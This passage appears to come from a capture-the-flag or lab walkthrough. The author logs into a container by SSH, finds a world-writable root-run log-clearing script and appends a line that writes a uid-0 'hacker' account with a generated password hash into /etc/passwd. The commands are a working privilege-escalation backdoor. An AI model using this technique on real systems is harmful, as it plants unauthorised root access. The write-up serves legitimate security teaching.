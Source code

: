 ```console
root@kali:~# ssh rross@172.16.0.3 -p 2222
rross@172.16.0.3's password: 
Linux lxc1 3.16.0-4-amd64 #1 SMP Debian 3.16.36-1+deb8u2 (2016-10-19) x86_64
rross@lxc1:~$ ls -la /opt/scripts/
total 12
drwxr-xr-x 2 root root 4096 Sep 25 20:56 .
drwxr-xr-x 3 root root 4096 Sep 26 20:43 ..
-rwxrwxrwx 1 root root  101 Nov 25 23:15 clear_nginx_logs.sh
```

Awesome! Note that we are now in the "__lxc1__" container, the __clear_nginx_logs.sh__ script is there, and it has root privileges!

## Exploiting Script Permissions:

Alright, now that we have the script present, let's open it up and see what's inside.

```console
rross@lxc1:~$ nano /opt/scripts/clear_nginx_logs.sh 


#!/bin/bash
 
## Cleaning NGINX log
echo > /var/log/nginx/access.log
echo > /var/log/nginx/error.log
```

Okay... so it seems that the script is clearing out access and error logs, so it's not much use to us.

But, what we can do is exploit this script to add a new "root" account every time it runs!

We can start by generating a hashed password via [opnessl](https://www.openssl.org/docs/man1.0.1/apps/openssl.html).

```console
rross@lxc1:~$ openssl passwd pass123
vjldnvO9rGgIE
```

Once we have the password, let's open the script back up and add an echo command that will create an admin account with the name of "__hacker__", along with root access to __/bin/bash/__. We will then pipe the output to __/etc/passwd__.

```console
rross@lxc1:~$ nano /opt/scripts/clear_nginx_logs.sh 


#!/bin/bash
 
## Cleaning NGINX log
echo > /var/log/nginx/access.log
echo > /var/log/nginx/error.log

echo "hacker:vjldnvO9rGgIE:0:0:hacker:/root:/bin/bash" >> /etc/passwd
```
